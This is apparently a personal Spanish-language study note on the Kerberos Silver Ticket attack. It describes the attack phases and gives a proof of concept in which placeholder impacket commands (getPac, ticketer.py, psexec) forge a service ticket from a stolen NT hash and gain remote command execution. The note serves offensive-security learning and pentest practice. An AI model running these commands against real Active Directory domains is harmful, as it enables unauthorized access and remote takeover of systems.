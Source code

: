 ------
- Tags: #teoria #practica #ataque 
-----
# [Silver Ticket Attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)
El ataque **Silver Ticket** es una técnica de explotación utilizada en entornos que emplean el protoclo de autenticación de [[Kerberos]]. Permite a un atacante generar un Ticket Granting Service (TGS). Un **Silver Ticket** es un ticket de autenticación falsificado que aveces se crea cuando un atacante roba la contraseña de una cuenta.

----
# Explotación 

- ### **Recolección de información**: El atacante comienza recopilando información sobre la infraestructura de red objetivo. Esto puede incluir la identificación de controladores de dominio, servidores de aplicaciones y serviciios de alto valor.

- ### **Obtención de credenciales**: El atacante primero necesita obtener credenciales válidas para algún servicio o sistema dentro de la red. Esto podría lograrse a través de métodos como **phishing**, robo de contraseñas, explotación de vulnerabilidades o el uso de credenciales filtradas.

- ### **Generación del Silver Ticket**: Una vez que al atacante tiene acceso a las credenciales se un SPN (Service Principal Name) puede generar un **Silver Ticket** ( Que no deja de ser un TGS), pero con datos robados.

- ### **Uso del Silver Ticket**: El atacante utiliza el Silver Ticket para autenticarse ante un servicio o recursos específico dentro de la red. Esto puede incluir servidores de archivos, base de datos o cualquier otro recurso protegido por el sistema de autenticación de [[Kerberos]].

----
# PoC

Por ejemplo, podemos estar en tenencia de el Hash NT de un usuario perteneciente a una cuenta de servicio (SPNs) el cual podemos utilizar para intentar realizar un **Silver Ticket Attack**. 
En este caso, es crucial tener en cuenta que debemos enfrentarnos a un escenario muy específico en el cual tenemos que tener:
**1)** El Hash NT de un usuario.
**2)** Que el usuario sea una SPNs (Cuenta de Servicio).
**3)** El SID del Domain (Security Identifier): Identificador único y alfanumérico que se utiliza en los sistemas operativos Windows para identificar de manera única a usuarios, grupos y objetos de seguridad dentro de un dominio o una red.

Para obtener el Hash NT del usuario podría ser obtenido por técnicas como [[Kerberoasting Attack]], [[SMB Relay]], explotación de vulnerabilidades, etc. Una vez entenencia del mismo, podríamos intentar obtener el SID haciendo uso de herramientas de la suite de **impacket** como **imapacket-getPac**.

```bash
impacket-getPac -targetUser {username} -hashes :{nt_hash} {domain}/{username}
```
Una vez que tengamos el SID del dominio, solo faltaría solicitar el **Silver Ticket** (TGS) con herramientas como **impacket-ticketer** o **ticketer.py**

```bash
python3 ticketer.py -nthash {hash_nt} -domain-sid {sid} -domain {domain} -spn {service}/{server} {user} 

impacket-ticketer -nthash {hash_nt} -domain-sid {sid} -domain {domain} -spn {service}/{server} {user} 
```
Una vez obtenido el ticket, como siempre solo hace falta exportarlo con la variable de entorno **KRB5CCNAME** y hacer uso de herramientas como **impacket-psexec** o **psexec.py** para la ejecución de acciones de manera remota.

```bash
export KRB5CCNAME={path/to/user.ccache/downloaded}

python3 psexec.py {dc}/{username}@{ip} -k -no-pass

impacket-psexec {dc}/{username}@{ip} -k -no-pass
```
Obteniendo así, una vez más, la [[RCE - (Remote Command Execution)]].